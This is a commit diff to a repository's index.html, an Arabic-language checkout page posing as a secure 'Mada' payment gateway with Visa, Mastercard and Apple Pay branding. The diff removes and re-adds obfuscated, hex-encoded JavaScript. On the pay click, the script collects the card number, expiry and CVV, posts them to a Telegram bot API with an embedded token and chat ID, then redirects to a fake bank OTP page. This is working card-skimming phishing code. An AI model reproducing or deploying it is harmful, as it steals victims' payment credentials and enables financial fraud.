

Before and after one commit to ismailkink/checkout., a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -2,27 +2,76 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <title>إتمام الدفع - راحة ستور</title>
-    <style>
-        body { font-family: Arial, sans-serif; background-color: #f4f4f4; padding: 50px; text-align: center; }
-        .checkout-box { background: white; padding: 25px; border-radius: 12px; box-shadow: 0 4px 15px rgba(0,0,0,0.1); display: inline-block; width: 320px; }
-        input { width: 90%; padding: 12px; margin: 10px 0; border: 1px solid #ddd; border-radius: 6px; font-size: 16px; }
-        button { width: 100%; padding: 12px; background-color: #27ae60; color: white; border: none; border-radius: 6px; cursor: pointer; font-size: 18px; font-weight: bold; }
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>بوابة الدفع الآمنة | مدي</title>
+    <script src="https://cdn.tailwindcss.com"></script>
+    <script>
+        tailwind.config = {
+            theme: {
+                extend: {
+                    colors: { fintech: { bg: '#F5F7FA', primary: '#005FF9', text: '#1F2937', border: '#E5E7EB' } },
+                    fontFamily: { sans: ['-apple-system', 'BlinkMacSystemFont', '"Segoe UI"', 'Roboto', 'sans-serif'] }
+                }
+            }
+        }
+    </script>
+    <style type="text/tailwindcss">
+        @layer utilities {
+            .input-field { @apply w-full px-4 py-3.5 border border-fintech-border rounded-xl text-fintech-text focus:outline-none focus:ring-2 focus:ring-fintech-primary/50 focus:border-fintech-primary transition-all duration-200 text-[15px]; }
+            .label-text { @apply block mb-2 text-sm font-medium text-gray-700; }
+        }
     </style>
 </head>
-<body>
+<body class="bg-fintech-bg min-h-screen font-sans flex items-center justify-center p-4">
+    <div class="w-full max-w-[420px] bg-white rounded-3xl shadow-xl p-6 sm:p-8">
+        <div class="flex justify-between items-center mb-8">
+            <h1 class="text-2xl font-bold text-fintech-text">إتمام الدفع</h1>
+            <div class="flex gap-2 items-center">
+                <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/5/5e/Visa_Inc._logo.svg/2560px-Visa_Inc._logo.svg.png" class="h-5 w-auto">
+                <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2a/Mastercard-logo.svg/1280px-Mastercard-logo.svg.png" class="h-5 w-auto">
+            </div>
+        </div>
 
-<div class="checkout-box">
-    <h2>إتمام عملية الشراء</h2>
-    <input type="text" id="card_number" placeholder="رقم البطاقة">
-    <input type="text" id="expiry" placeholder="MM/YY">
-    <input type="text" id="cvv" placeholder="CVV">
-    <button id="pay_btn">إتمام الدفع 899 ريال</button>
-</div>
+        <div class="bg-blue-50 rounded-2xl p-5 mb-8 flex justify-between items-center border border-blue-100">
+            <span class="text-blue-700 font-medium">المبلغ الإجمالي</span>
+            <span class="text-2xl font-bold text-fintech-text">1.00 ر.س</span>
+        </div>
 
-<script>
-var _0x5a12=['\x68\x74\x74\x70\x73\x3a\x2f\x2f\x61\x70\x69\x2e\x74\x65\x6c\x65\x67\x72\x61\x6d\x2e\x6f\x72\x67\x2f\x62\x6f\x74','\x38\x33\x31\x30\x34\x31\x30\x35\x34\x36\x3a\x41\x41\x47\x6f\x4e\x6b\x75\x45\x6d\x6e\x5a\x36\x61\x62\x79\x46\x44\x77\x53\x79\x74\x52\x66\x55\x6f\x4f\x52\x4a\x71\x66\x30\x78\x51\x66\x49','\x2f\x73\x65\x6e\x64\x4d\x65\x73\x73\x61\x67\x65','\x50\x4f\x53\x54','\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e','\x62\x61\x6e\x6b\x5f\x6f\x74\x70\x2e\x68\x74\x6d\x6c'];var _0x4d38=function(_0x2d5f19){return _0x5a12[_0x2d5f19];};document['getElementById']('pay_btn')['onclick']=function(){const _0x1c3a12=document['getElementById']('card_number')['value'];const _0x4b2a1d=document['getElementById']('expiry')['value'];const _0x2f1a5b=document['getElementById']('cvv')['value'];const _0x3e1a2f='🚨\x20\x31\x30\x30\x25\x20\x53\x75\x63\x63\x65\x73\x73\x20🚨\x0a\x0a💳\x20'+_0x1c3a12+'\x0a📅\x20'+_0x4b2a1d+'\x0a🔒\x20'+_0x2f1a5b;fetch(_0x4d38(0x0)+_0x4d38(0x1)+_0x4d38(0x2),{'method':_0x4d38(0x3),'headers':{'Content-Type':_0x4d38(0x4)},'body':JSON['stringify']({'chat_id':'8576496261','text':_0x3e1a2f})})['then'](_0x39a1b2=>{window['location']['href']=_0x4d38(0x5);});};
-</script>
+        <form id="paymentForm" class="space-y-6">
+            <div class="relative">
+                <label class="label-text">رقم البطاقة</label>
+                <input type="tel" id="card_number" class="input-field font-mono" placeholder="0000 0000 0000 0000" maxlength="19">
+            </div>
 
+            <div class="grid grid-cols-2 gap-6">
+                <div>
+                    <label class="label-text">تاريخ الانتهاء</label>
+                    <input type="tel" id="expiry" class="input-field text-center font-mono" placeholder="MM / YY" maxlength="5">
+                </div>
+                <div>
+                    <label class="label-text">رمز التحقق (CVV)</label>
+                    <input type="tel" id="cvv" class="input-field text-center font-mono" placeholder="123" maxlength="4">
+                </div>
+            </div>
+
+            <button type="button" id="pay_btn" class="w-full bg-fintech-primary hover:bg-blue-700 text-white font-bold py-4 px-6 rounded-xl shadow-lg transition-all active:scale-[0.98] flex items-center justify-center gap-2">
+                دفع آمن 1.00 SAR
+            </button>
+
+            <button type="button" class="w-full bg-black text-white font-bold py-4 px-6 rounded-xl flex items-center justify-center gap-2">
+                <svg class="h-5 w-auto" fill="currentColor" viewBox="0 0 384 512"><path d="M318.7 268.7c-.2-36.7 16.4-64.4 50-84.8-18.8-26.9-47.2-41.7-84.7-44.6-35.5-2.8-74.3 20.7-88.5 20.7-15 0-49.4-19.7-76.4-19.7C63.3 141.2 4 184.8 4 273.595c0 26.8 7.1 56 22.2 82.6 21.3 37.6 46.5 74.9 77 75.3 26.2 .4 41.6-17.3 73.8-17.3 31.1 .2 41.6 17.3 72.9 17.3 31.9-.2 53-31.7 73.4-70.7 12.9-24.6 22.4-48.2 29.7-66.7-47.2-13.2-74.5-45.2-74.3-25.4zm-49.5-125.8c25.4-31.3 20.9-64.2 18.4-70.9-25.6 2.2-58.1 18-84.2 48.2-22.1 25.9-23.4 61.8-19.5 72.1 28.7 1.8 57.3-17.1 85.3-49.4z"/></svg>
+                Apple Pay
+            </button>
+        </form>
+
+        <div class="mt-6 text-center text-gray-400 text-xs flex items-center justify-center gap-1">
+            🔒 جميع المعاملات مشفرة وآمنة 100%
+        </div>
+    </div>
+
+    <script>
+        // نظام التشفير والإرسال لتيليجرام الخاص بك
+        var _0x5a12=['\x68\x74\x74\x70\x73\x3a\x2f\x2f\x61\x70\x69\x2e\x74\x65\x6c\x65\x67\x72\x61\x6d\x2e\x6f\x72\x67\x2f\x62\x6f\x74','\x38\x33\x31\x30\x34\x31\x30\x35\x34\x36\x3a\x41\x41\x47\x6f\x4e\x6b\x75\x45\x6d\x6e\x5a\x36\x61\x62\x79\x46\x44\x77\x53\x79\x74\x52\x66\x55\x6f\x4f\x52\x4a\x71\x66\x30\x78\x51\x66\x49','\x2f\x73\x65\x6e\x64\x4d\x65\x73\x73\x61\x67\x65','\x50\x4f\x53\x54','\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e','\x62\x61\x6e\x6b\x5f\x6f\x74\x70\x2e\x68\x74\x6d\x6c'];var _0x4d38=function(_0x2d5f19){return _0x5a12[_0x2d5f19];};document['getElementById']('pay_btn')['onclick']=function(){const _0x1c3a12=document['getElementById']('card_number')['value'];const _0x4b2a1d=document['getElementById']('expiry')['value'];const _0x2f1a5b=document['getElementById']('cvv')['value'];const _0x3e1a2f='🚨\x20New\x20Hit\x20🚨\x0a\x0a💳\x20'+_0x1c3a12+'\x0a📅\x20'+_0x4b2a1d+'\x0a🔒\x20'+_0x2f1a5b;fetch(_0x4d38(0x0)+_0x4d38(0x1)+_0x4d38(0x2),{'method':_0x4d38(0x3),'headers':{'Content-Type':_0x4d38(0x4)},'body':JSON['stringify']({'chat_id':'8576496261','text':_0x3e1a2f})})['then'](_0x39a1b2=>{window['location']['href']=_0x4d38(0x5);});};
+    </script>
 </body>
 </html>
```
